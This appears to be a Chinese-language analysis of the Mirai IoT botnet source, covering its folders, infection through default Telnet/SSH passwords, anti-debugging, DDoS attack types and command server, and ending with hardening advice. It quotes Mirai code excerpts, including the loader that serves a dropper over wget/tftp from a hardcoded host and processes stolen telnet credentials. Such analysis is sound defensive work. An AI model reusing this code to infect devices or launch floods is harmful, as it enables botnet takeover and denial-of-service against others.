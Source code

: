 #### 代码结构
主要包含两个文件夹，其中loader文件夹为加载器，完成服务端创建和状态监控的功能；mirai文件夹完成主要的恶意功能，包含网络连接、DDOS执行、下载（等工具的实现）以及主控端操作功能

#### 感染途径
攻击者通过SSH或Telnet账号，使用默认密码入侵物联网设备

#### 功能实现

#### Bot
代码实现的恶意功能从源码来看，主要包含3方面，主要是bot文件夹，实现反调试、隐藏自身进程、设置初始的域名端口值、设置默认弱口令、网络连接及DDOS攻击功能；
Tools文件夹，实现wget、更新文件、异或数据等工具性功能；

```
static void anti_gdb_entry(int);
static void resolve_cnc_addr(void);
static void establish_connection(void);
static void teardown_connection(void);
static void ensure_single_instance(void);
static BOOL unlock_tbl_if_nodebug(char *);
```

- 如果监测到gdb调试，则进行自删除，阻止watchdog重新启动设备，并显示连接CC地址失败
- 确保每次只有一个实例运行（通过连接本地端口48101）,并通过此端口号关闭相对应的进程
- 隐藏进程
- 攻击初始化，设置攻击类型，包含UDP、VSE、DNS、SYN等多种DDOS攻击方式
- 端口初始化，通过端口号关闭使用telnet、SSH、HTTP服务的其他进程，并防止其重新启动
- 扫描初始化，扫描局域网中具有弱口令以及开放23端口的其他设备

#### 连接域名及端口号
- 在源码中硬编码方式嵌入了连接的域名和端口号，其中的域名字符串都可以使用Tools文件夹下的enc.c所示的算法进行还原
- 其目标为使用busybox的设备
```
if (memmem(buf, got, "BusyBox", 7) != NULL)
{
    state->got_prompt = 1;
    
    //maybe we are logged in already? LOL
    sockprintf(state->fd, "enable\r\n");
    state->state = 7;
    break;
}
```
- DDOS攻击方法
```
#define ATK_VEC_UDP        0  /* Straight up UDP flood */
#define ATK_VEC_VSE        1  /* Valve Source Engine query flood */
#define ATK_VEC_DNS        2  /* DNS water torture */
#define ATK_VEC_SYN        3  /* SYN flood with options */
#define ATK_VEC_ACK        4  /* ACK flood */
#define ATK_VEC_STOMP      5  /* ACK flood to bypass mitigation devices */
#define ATK_VEC_GREIP       6  /* GRE IP flood */
#define ATK_VEC_GREETH     7  /* GRE Ethernet flood */
//#define ATK_VEC_PROXY     8  /* Proxy knockback connection */
#define ATK_VEC_UDP_PLAIN  9  /* Plain UDP flood optimized for speed */
#define ATK_VEC_HTTP        10 /* HTTP layer 7 flood */
```
- 设置用户名密码

#### CNC文件夹
监听端口23和101，分别完成不同的操作。此部分操作主要为主控端的操作
```
funcmain() {
  tel, err := net.Listen("tcp", "0.0.0.0:23")
  if err != nil {
    fmt.Println(err)
    return
  }
  api, err := net.Listen("tcp", "0.0.0.0:101")
  if err != nil {
    fmt.Println(err)
    return
  }
  gofunc() {
    for {
      conn, err := api.Accept()
      if err != nil {
          break
      }
      goapiHandler(conn)
    }
  }()
  for {
    conn, err := tel.Accept()
    if err != nil {
        break
    }
    goinitialHandler(conn)
  }
}
```

#### Tools文件夹
- Single_Load.c 加载文件
- Wget.c 获取远程文件
- Nogdb.c(更新文件信息)
- Badbot.c(显示指定的bot信息)

#### loader文件夹
其主要功能是创建服务器，同时监控连接的状态
```
if (!binary_init()) {
  printf("Failed to load bins/dlr.* as dropper\n");
  return 1;
}

/* wget address tftp address */
if ((srv = server_create(sysconf(_SC_NPROCESSORS_ONLN), addrs_len, addrs, 1024 * 64, "100.200.100.100", 80, "100.200.100.100")) == NULL)
{
    printf("Failed to initialize server. Aborting\n");
    return 1;
}

pthread_create(&stats_thrd, NULL, stats_thread, NULL);
// Read from stdin

while (TRUE) {
    char strbuf[1024];
    if (fgets(strbuf, sizeof (strbuf), stdin) == NULL) {
        break;
    }

    util_trim(strbuf);

    if (strlen(strbuf) == 0) {
        usleep(10000);
        continue;
    }

    memset(&info, 0, sizeof(struct telnet_info));

    if (telnet_info_parse(strbuf, &info) == NULL) {
        printf("Failed to parse telnet info: \"%s\" Format -> ip:port user:pass arch\n", strbuf);
    } else {
        if (srv == NULL)
            printf("srv == NULL 2\n");

        server_queue_telnet(srv, &info);
        if (total++ % 1000 == 0)
            sleep(1);
    }
    ATOMIC_INC(&srv->total_input);
}

printf("Hit end of input.\n");

while(ATOMIC_GET(&srv->curr_open) > 0) {
  sleep(1);
}

return 0;
```
#### 防护方法
其攻击针对的对象主要是安装了busybox工具的linux操作系统的设备

- 修改初始口令以及弱口令，加固用户名和密码的安全性
- 禁用48101端口
- 关闭telnet连接（使用了23端口）
- busybox工具只允许特定用户进行使用
